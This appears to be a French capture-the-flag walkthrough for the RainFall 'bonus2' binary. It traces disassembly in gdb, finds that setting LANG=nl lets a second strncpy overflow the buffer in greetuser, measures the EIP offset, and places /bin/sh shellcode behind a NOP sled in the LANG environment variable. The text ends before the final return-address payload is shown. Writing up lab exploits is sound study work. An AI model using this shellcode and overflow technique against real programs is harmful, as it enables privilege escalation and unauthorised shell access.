 ```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 test test12
Hello test
bonus2@RainFall:~$ ./bonus2 test test
Hello test
bonus2@RainFall:~$ ./bonus2 test1 test12
Hello test1
```

On observe un binaire attendant 2 arguments et affichant Hello [av1]
On a 2 fonctions, le main ainsi qu'une fonction "greetuser"

```
   0x08048538 <+15>:    cmp    DWORD PTR [ebp+0x8],0x3
   0x0804853c <+19>:    je     0x8048548 <main+31>
   0x0804853e <+21>:    mov    eax,0x1
   0x08048543 <+26>:    jmp    0x8048630 <main+263>
```

On recupere le contenu de argc et si ce n'est pas égal à 3 on jump à main+263 pour return 1
Puis il y a un memset sur la chaine de caractere declarée au debut.
2 calls de strncpy sur la meme chaine de caractere (40 puis 32) en utilisqnt les arguments 1 et 2.
```
0x0804859f <+118>:   mov    DWORD PTR [esp],0x8048738
   0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
   0x080485ab <+130>:   mov    DWORD PTR [esp+0x9c],eax
   0x080485b2 <+137>:   cmp    DWORD PTR [esp+0x9c],0x0
   0x080485ba <+145>:   je     0x8048618 <main+239>
```
Puis on call getenv() ce qui parait interessant, on observe une variable globale LANG.
Si le getenv() est égal à 0 alors on quitte.
Et enfin on arrive à la partie qui va nous interesser !

On observe que si l'on a lang = fi ou nl alors dans la fonction greetuser, la chaine va etre plus longue et va segfalt!
Mettons donc notre lange à NL

```
export LANG=nl
gdb ./bonus2
run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
# On a mit 40 A dans le premier argument pour remplir le premier strncpy puis generer la deuxieme chaine avec notre buffer overflow https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
```
On remarque que le programme segfalt bien, puisque l'on observe aucune entrée au shell, on en déduit que l'on devra injecter notre propre shell.
Comme dans un bonus precedent, nous allons donc injecter notre shell dans une variable d'environement et l'appeler via le crash de l'EIP.
On a donc un offset = 23.

Shellcode : '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' # http://shell-storm.org/shellcode/files/shellcode-827.php

```
export LANG=$(python -c 'print("nl" + "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
# Encore une fois, comme avant on rajoute du padding pour etre sur que les arguments n'interfèrent pas
```
